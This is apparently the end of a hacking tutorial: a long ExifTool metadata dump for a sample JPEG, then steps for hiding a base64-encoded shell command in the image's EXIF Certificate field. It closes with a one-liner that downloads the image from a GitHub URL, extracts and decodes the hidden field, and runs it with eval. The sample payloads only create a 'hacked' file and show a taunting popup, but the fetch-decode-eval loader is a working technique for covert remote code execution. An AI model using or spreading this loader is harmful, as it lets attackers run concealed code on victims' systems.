│1            ║DigitalZoom             │                          None                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║UserComment             │                                                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FileName                │                       example.jpg                      │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ImageUniqueID           │            4e1bc6869060865395be4d3b588f012c            │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FlashGuideNumber        │                            0                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocalPlaneXSize         │                         5.84 mm                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AFAreaHeights           │               41 41 41 41 41 41 41 41 41               │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║YResolution (1)         │                           96                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AEBBracketValue         │                            0                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocalPlaneResolutionUnit│                         inches                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocalPlaneXResolution   │                       13653.33333                      │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║SelfTimer               │                           Off                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FNumber                 │                           4.0                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ColorSpace              │                      Uncalibrated                      │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ExposureMode            │                          Auto                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ImageSize               │                         800x534                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocusContinuous         │                         Single                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ExposureTime (1)        │                          1/421                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocusDistanceUpper      │                         19.55 m                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AFAreaMode              │                          Auto                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Keywords                │                   romania, sighisoara                  │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║SequenceNumber          │                            0                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Make                    │                          Canon                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ExposureTime            │                          1/400                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CanonImageWidth         │                          3072                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CircleOfConfusion       │                        0.005 mm                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║GPSAltitude (1)         │                           0 m                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ScaleFactor35efl        │                           6.1                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Contrast                │                         Normal                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ZoomSourceWidth         │                          3072                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocalLength35efl        │           10.0 mm (35 mm equivalent: 60.3 mm)          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocalUnits              │                         1000/mm                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ResolutionUnit          │                         inches                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║GPSLatitude (1)         │                    46 deg 14' 28.70"                   │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║MaxFocalLength          │                         34.8 mm                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CanonImageHeight        │                          2304                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ImageWidth              │                           800                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FileTypeExtension       │                           jpg                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ResolutionUnit (1)      │                         inches                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Megapixels              │                          0.427                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ExifImageHeight         │                           534                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AutoExposureBracketing  │                           Off                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║XResolution (1)         │                           96                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ShootingMode            │                        Landscape                       │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ZoomTargetWidth         │                          3072                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║SceneCaptureType        │                        Landscape                       │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║DOF                     │                   inf (3.31 m - inf)                   │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ResolutionUnit (2)      │                         inches                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocalLength (1)         │                        9.954 mm                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FileType                │                          JPEG                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AFAreaWidths            │           276 276 276 276 276 276 276 276 276          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║MeasuredEV              │                          14.47                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║HyperfocalDistance      │                         4.99 m                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FlashOutput             │                            0                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║DateStampMode           │                           Off                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AFImageHeight           │                           230                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ContinuousDrive         │                         Single                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CanonModelID            │                    PowerShot A710 IS                   │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ShutterSpeed            │                          1/400                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ValidAFPoints           │                            9                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocusRange              │                          Auto                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ImageUniqueID (1)       │            4ed58cae7dcbbe46c44c5f930bcacd48            │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CreateDate              │                   2007:09:26 05:46:21                  │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║MeteringMode (1)        │                      Multi-segment                     │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║OpticalZoomCode         │                            5                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CameraType              │                         Compact                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Compression             │                    JPEG (old-style)                    │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║MacroMode               │                         Normal                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AutoRotate              │                          None                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║SelfTimer2              │                            0                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Quality                 │                        Superfine                       │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AutoISO                 │                           75                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║SpotMeteringMode        │                         Center                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║DateTimeOriginal        │                   2007:09:26 05:46:21                  │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║WhiteBalance (1)        │                          Auto                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CanonFlashMode          │                           Off                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CustomRendered          │                         Normal                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║WhiteBalance            │                          Auto                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║GPSLongitudeRef         │                          East                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Categories              │                         (none)                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║GPSPosition             │        46 deg 14' 28.70" N, 24 deg 50' 59.55" E        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║MinAperture             │                            8                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Directory               │            /home/reaper/goHackTools/geo-img            │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║LensID                  │                     Unknown 5-34mm                     │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ControlMode             │                  Camera Local Control                  │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CanonImageSize          │                          Large                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║MIMEType                │                       image/jpeg                       │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ExifToolVersion         │                          12.30                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AFPointsInFocus         │                            4                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ImageStabilization      │                           On                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║BaseISO                 │                           100                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║MeteringMode            │                       Evaluative                       │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║SlowShutter             │                           Off                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║MyColorMode             │                           Off                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Model                   │                 Canon PowerShot A710 IS                │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Warning                 │[minor] Canon maker note footer may be invalid (ignored)│
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Saturation              │                         Normal                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║BulbDuration            │                            0                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocusMode               │                         Single                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FileInodeChangeDate     │                2022:02:12 01:52:17-05:00               │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocalType               │                          Zoom                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ExifByteOrder           │                Little-endian (Intel, II)               │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CanonImageType          │               IMG:PowerShot A710 IS JPEG               │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ShutterSpeedValue       │                          1/403                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ThumbnailLength         │                          4536                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FlashpixVersion         │                          0100                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║DigitalZoomRatio        │                            1                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FileNumber              │                        119-1760                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ManualFlashOutput       │                           n/a                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║YCbCrPositioning        │                        Centered                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocalPlaneYSize         │                         4.39 mm                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CameraISO               │                          Auto                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║GPSAltitude             │                   0 m Above Sea Level                  │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║LightValue              │                          13.1                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Software                │                       Picasa 3.0                       │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Aperture                │                           4.0                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FOV                     │                        33.3 deg                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║GPSLatitude             │                   46 deg 14' 28.70" N                  │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AESetting               │                        Normal AE                       │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║RecordMode              │                          JPEG                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║NDFilter                │                           Off                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CanonFirmwareVersion    │                  Firmware Version 1.00                 │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║InteropVersion          │                          0100                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║RelatedImageHeight      │                           534                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ExposureCompensation (1)│                            0                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FlashExposureComp       │                            0                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║EncodingProcess         │              Baseline DCT, Huffman coding              │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║XResolution             │                           180                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocalPlaneYResolution   │                       13633.13609                      │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocalLength             │                         10.0 mm                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CameraTemperature       │                          29 C                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║JFIFVersion             │                          1.01                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║EasyMode                │                        Landscape                       │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║PrimaryAFPoint          │                            4                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ThumbnailImageValidArea │                         0 0 0 0                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FirmwareRevision        │                      1.00 rev 1.00                     │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FNumber (2)             │                            4                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║GPSVersionID            │                         0.0.2.2                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ColorComponents         │                            3                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FileSource              │                     Digital Camera                     │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║YResolution             │                           180                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ExposureCompensation    │                            0                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║TargetExposureTime      │                          1/403                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║MaxAperture             │                           3.2                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Lens35efl               │    5.8 - 34.8 mm (35 mm equivalent: 35.1 - 210.7 mm)   │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║DriveMode               │                  Single-frame Shooting                 │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║TargetAperture          │                            4                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FileSize                │                         138 KiB                        │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ISO (1)                 │                           75                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AFAreaYPositions        │               -42 -42 -42 0 0 0 42 42 42               │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AFImageWidth            │                          1536                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Lens                    │                      5.8 - 34.8 mm                     │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║LensType                │                           n/a                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FNumber (1)             │                            4                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Orientation             │                       Unknown (0)                      │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FocusDistanceLower      │                           0 m                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ExifImageWidth          │                           800                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FlashBits               │                         (none)                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║RelatedImageWidth       │                           800                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ThumbnailOffset         │                          3502                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║GPSLongitude            │                   24 deg 50' 59.55" E                  │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CompressedBitsPerPixel  │                            5                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CanonExposureMode       │                          Easy                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║SensingMethod           │                   One-chip color area                  │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FileAccessDate          │                2022:02:12 01:52:17-05:00               │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║YResolution (2)         │                           72                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║InteropIndex            │               R98 - DCF basic file (sRGB)              │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Sharpness               │                            0                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║XResolution (2)         │                           72                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ComponentsConfiguration │                      Y, Cb, Cr, -                      │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ModifyDate              │                   2007:09:26 05:46:21                  │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║BitsPerSample           │                            8                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ImageHeight             │                           534                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║AFAreaXPositions        │            -276 0 276 -276 0 276 -276 0 276            │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Rotation                │                            0                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║MaxApertureValue        │                           3.2                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FilePermissions         │                       -rw-r--r--                       │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║GPSLongitude (1)        │                    24 deg 50' 59.55"                   │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║Flash                   │                    Off, Did not fire                   │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ExifVersion             │                          0220                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ApertureValue           │                           4.0                          │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║CurrentIPTCDigest       │            6b390b44eed2df233bf00ecb36a5dab3            │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║MinFocalLength          │                         5.8 mm                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║GPSAltitudeRef          │                     Above Sea Level                    │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║FileModifyDate          │                2022:02:12 01:52:17-05:00               │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║NumAFPoints             │                            9                           │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ThumbnailImage          │                 SCALAR(0x55b21a3053c0)                 │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║GPSLatitudeRef          │                          North                         │
├─────────────╫────────────────────────┼────────────────────────────────────────────────────────┤
│1            ║ISO                     │                           75                           │
└─────────────╨────────────────────────┴────────────────────────────────────────────────────────┘
```

if we go through the table we cant seem to find the certificate, which is aye okay 😎, we arent always going to find the cert in some jpg images especially if you download it off of the website, or google which can sometimes erase it, however no need to worry we have our trusty dusty EXIFTOOL to update the certificate, now what we will be doing here is taking our base64 encoded payload, injecting it into the certificate and finally updating the image, to do this with exiftool we just type 

`exiftool Certificate=whateverstringis output.jpg` and exif tool will auto update the tool, lets use this with our string, if there is already a payload in the image you can use `exiftool -all= image.jpg` to erase the data in the image and kinda strip it of any payloads which will start with our own, since i tested this before writing about it i have my payload in there which is 

`Certificate                     : dG91Y2ggfi9EZXNrdG9wL2hhY2tlZA==`

so once i enter that command i now get 

```
ExifTool Version Number         : 12.30
File Name                       : example.jpg
Directory                       : .
File Size                       : 130 KiB
File Modification Date/Time     : 2022:02:27 09:08:26-05:00
File Access Date/Time           : 2022:02:27 09:08:26-05:00
File Inode Change Date/Time     : 2022:02:27 09:08:26-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Image Width                     : 800
Image Height                    : 534
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 800x534
Megapixels                      : 0.427

```

instead of that major and massive table of data, lets now inplant our string 


`exiftool - Certificate='emVuaXR5IC0tbm90aWZpY2F0aW9uIC0tdGV4dD0iV0FSTklORzogWU9VIEhBVkUgQkVFTiBIQUNLRUQgOkQgRElFIERJRSBESUUgRElFIERJRSIgLS10aXRsZT0iVElNRSBJUyBVUCBGVUNLRVJSUlIiIDsgZWNobyAtZW4gIgci' example.jpg`

now this is a bit large but thats okay, when we redump our image we get 

```
Certificate                     : emVuaXR5IC0tbm90aWZpY2F0aW9uIC0tdGV4dD0iV0FSTklORzogWU9VIEhBVkUgQkVFTiBIQUNLRUQgOkQgRElFIERJRSBESUUgRElFIERJRSIgLS10aXRsZT0iVElNRSBJUyBVUCBGVUNLRVJSUlIiIDsgZWNobyAtZW4gIgci
```

our injected image is the same but now has the payload 




this means our code is now injected into the image, now lets make a simple command to filter and execute this data

`p=$(curl -s https://github.com/ArkAngeL43/EXIF-Stegonography-and-image-injection/blob/main/zip_utils/example.jpg | grep Cert -a | sed 's/<[^>]*>//g' | base64 -d);eval $p`


